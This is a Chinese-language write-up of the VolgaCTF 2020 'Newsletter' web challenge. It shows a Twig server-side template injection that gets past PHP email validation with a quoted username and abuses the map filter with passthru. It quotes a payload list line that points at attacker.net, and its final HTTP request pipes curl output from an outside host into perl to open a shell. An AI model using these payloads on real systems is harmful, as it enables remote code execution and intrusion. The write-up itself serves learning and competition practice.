

# VolgaCTF Qualifier - 2020

## Web / 200 - Newsletter

>
> Subscribe to our newsletter!
>
> URL: http://newsletter.q.2020.volgactf.ru/
>

### Solution

By [@Cyku](https://cyku.tw)

原文連結：[https://cyku.tw/volgactf-2020-qualifier/](https://cyku.tw/volgactf-2020-qualifier/)

---

這題是 PHP 白箱題，有提供 Source Code 如下：

```php
<?php
namespace App\Controller;

use Symfony\Bundle\FrameworkBundle\Controller\AbstractController;
use Symfony\Component\HttpFoundation\Response;
use Symfony\Component\HttpFoundation\Request;
use Symfony\Component\Mailer\MailerInterface;
use Symfony\Component\Mime\Email;

class MainController extends AbstractController
{
    public function index(Request $request)
    {
      return $this->render('main.twig');
    }

    public function subscribe(Request $request, MailerInterface $mailer)
    {
      $msg = '';
      $email = filter_var($request->request->get('email', ''), FILTER_VALIDATE_EMAIL);
      if($email !== FALSE) {
        $name = substr($email, 0, strpos($email, '@'));

        $content = $this->get('twig')->createTemplate(
          "<p>Hello ${name}.</p><p>Thank you for subscribing to our newsletter.</p><p>Regards, VolgaCTF Team</p>"
        )->render();

        $mail = (new Email())->from('newsletter@newsletter.q.2020.volgactf.ru')->to($email)->subject('VolgaCTF Newsletter')->html($content);
        $mailer->send($mail);

        $msg = 'Success';
      } else {
        $msg = 'Invalid email';
      }
      return $this->render('main.twig', ['msg' => $msg]);
    }


    public function source()
    {
        return new Response('<pre>'.htmlspecialchars(file_get_contents(__FILE__)).'</pre>');
    }
}
```

從程式碼可以看到我們傳送過去 $email 變數會被取 @ 前方的字串指派給 $name，然後 $name 直接被帶入 Twig 的模板字串中並建立模板執行，所以這邊就有個 Twig 的 Server-Side Template Injection，但首先我們必須繞過 `filter_var($request->request->get('email', ''), FILTER_VALIDATE_EMAIL)` 這行的限制，必須是合法的 email 又包含模板語法。

而我的隊友在 Stack Overflow 上找到這篇文章：[PHP FILTER_VALIDATE_EMAIL does not work correctly](https://stackoverflow.com/questions/19220158/php-filter-validate-email-does-not-work-correctly)，底下回覆提供了頗為完整的合法 email 範例列表，其中可以看到一個很重要的範例：`"()<>[]:,;@\\"!#$%&'*+-/=?^_``{}| ~.a"@example.org`，這個範例告訴我們，如果 email 中的 username 包括一些特殊符號，只要使用雙引號 " 將 username 包夾起來，就會被視為一個合法的 email，所以我們能構造 `"{{3*4}}"@a.a` 這樣的 Payload 就能躲過 filter_var 的限制。

接著就是嘗試作 SSTI 的利用，如果直接上網 Google，通常都會找到這樣的 Payload：

[PayloadsAllTheThings/Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig)
```
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

這個 Payload 是利用內建 \_self 變數來取得 \Twig\Template 的實例來執行惡意函式作利用，但如果去查官網 [Documentation](https://twig.symfony.com/doc/1.x/deprecated.html#globals) 會發現這個變數早已被棄用，現在只會回傳一個字串代表當前模板名稱 QQ，所以我們必須尋找新的利用方式。

在 Twig 模板裡面支援 filter 語法，可以呼叫內建或自定義的 filter 函式在輸出變數時對變數值作格式化或其他處理，譬如：`{{ "aa"|upper }}` 可以將 aa 在輸出時變成 AA。

於是我就以字串 `new TwigFilter(` 搜尋程式碼裡所有內建的 filter 函式，其中發現一個非常有趣的函式：

```php
new TwigFilter('map', 'twig_array_map')

function twig_array_map($array, $arrow)
{
    $r = [];
    foreach ($array as $k => $v) {
        $r[$k] = $arrow($v, $k);
    }

    return $r;
}
```

沒錯，直接把我們可控的變數 $arrow 當作函式名稱進行呼叫，恰好 $v 也是我們可以控制的變數，只要找到一個函式可以執行系統指令並允許傳遞第二個參數，就能 GetShell，這種函式也不少，例如 `passthru ( string $command [, int &$return_var ] )` 就很符合我們的需求。

所以只要注入模板 `{{ ['id']|map('passthru') }}` 就能執行 id 系統指令，結合前面 email 的規則就能夠造出 `"{{['id']|map('passthru')}}"@a.a` 的 Payload，不過實測後發現就算使用雙引號包夾，只要有空白字元出現就會被判定為不合法的 email，好在只是用不了空白的 Command Injection 對 CTF 玩家來說並不是個問題。

最後成功 GetShell 的 Payload：

```plaintext
POST /subscribe HTTP/1.1
Host: newsletter.q.2020.volgactf.ru
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Referer: http://newsletter.q.2020.volgactf.ru/subscribe
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Connection: close
Upgrade-Insecure-Requests: 1

email="{{['curl${IFS}cyku.tw:8080|perl']|map('passthru')}}"@a.a
```

發現 flag 藏在 /etc/passwd 裡


Flag：`VolgaCTF_6751602deea2a308ab611eeef7a4e961`